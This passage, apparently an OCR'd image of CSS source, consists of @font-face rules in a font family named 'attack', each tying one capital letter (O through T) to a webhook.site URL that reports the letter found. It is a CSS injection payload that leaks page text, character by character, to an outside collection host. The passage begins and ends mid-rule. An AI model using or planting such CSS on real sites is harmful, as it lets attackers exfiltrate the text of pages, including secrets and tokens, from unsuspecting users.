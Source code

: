            unicode-range:U+004E;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:O');

           unicode-range:U+004F;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:P');

           unicode-range:U+0050;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:Q');

           unicode-range:U+0051;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:R');

           unicode-range:U+0052;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:S');

           unicode-range:U+0053;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:T');
